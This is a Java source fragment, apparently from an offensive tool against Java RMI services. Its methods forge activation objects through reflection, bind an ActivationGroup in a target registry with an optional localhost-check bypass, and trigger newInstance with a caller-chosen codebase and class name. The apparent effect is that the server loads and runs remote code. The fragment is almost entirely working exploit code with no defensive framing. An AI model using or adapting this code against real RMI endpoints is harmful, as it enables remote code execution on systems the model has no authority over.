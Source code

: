 ```java
    	Constructor<?> constructor = activationSystemImplClass.getDeclaredConstructor(new Class[] {Activation.class, int.class, RMIServerSocketFactory.class});
		constructor.setAccessible(true);
		
		activationSystemImpl = constructor.newInstance(activation, 4444, null);
		
		activationGroupID = new ActivationGroupID((java.rmi.activation.ActivationSystem)activationSystemImpl);
		activationGroup = new ActivationGroupImpl(activationGroupID, null);
		UnicastRemoteObject.unexportObject(activationGroup, true);
    }
    
    private void prepareActivationID(String codebase, String className) throws Exception
    {
    	if( activation == null )
    		prepareActivation();
    	
    	Constructor<?> constructor = activatorImplClass.getDeclaredConstructor(new Class[] {Activation.class, int.class, RMIServerSocketFactory.class});
		constructor.setAccessible(true);
		
		Object activator = constructor.newInstance(activation, 4445, null);
		UnicastRemoteObject.unexportObject((Remote) activator, true);
		
		activationID = new ActivationID((Activator)activator);
    }
    
    private void prepareObjects(String codebase, String className) throws Exception
    {
    	lookupClasses();
    	prepareActivation();
    	prepareActivationGroup();
    	prepareActivationID(codebase, className);
    }
    
    public void invoke(String codebase, String className, boolean localhostBypass) throws Exception
    {
    	prepareObjects(codebase, className);
    	ActivationDesc activationDesc = new ActivationDesc(activationGroupID, className, codebase, null);

    	RegistryClient registry = new RegistryClient(rmi);
    	registry.bindObject(boundName, null, 0, localhostBypass, activationGroup);

    	ActivationGroup_Stub stub = (ActivationGroup_Stub)rmi.lookup(boundName);
    	stub.newInstance(activationID, activationDesc);
    	
		UnicastRemoteObject.unexportObject((Remote) activationSystemImpl, true);
    }
}
```
